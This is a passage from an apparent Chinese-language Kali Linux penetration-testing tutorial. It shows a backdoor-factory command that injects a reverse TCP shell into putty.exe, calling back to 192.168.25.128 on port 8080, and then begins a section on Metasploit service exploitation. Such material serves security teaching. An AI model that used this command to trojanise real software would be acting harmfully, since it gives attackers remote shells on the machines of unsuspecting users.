 现在执行命令，如下图所示：

```
root@kali:~# backdoor-factory -f /root/Desktop/putty.exe -s reverse_shell_tcp_inline -H  192.168.25.128 -P 8080
```

此命令将打开位于`/root/Desktop`的文件`putty.exe`，将反向 TCP 外壳注入可执行文件，并将后门配置为连接到端口`8080`上的 IP 地址`192.168.25.128`。

![](img/449ab564-d3ff-4dc3-ac34-02f899f8c991.png)

# 使用 Metasploit 开发远程服务

在我们继续开发远程目标系统上的服务之前，我们必须知道所有服务都在运行，以及它们的确切版本。我们可以进行快速 Nmap 扫描以列出服务版本信息，如下图所示：
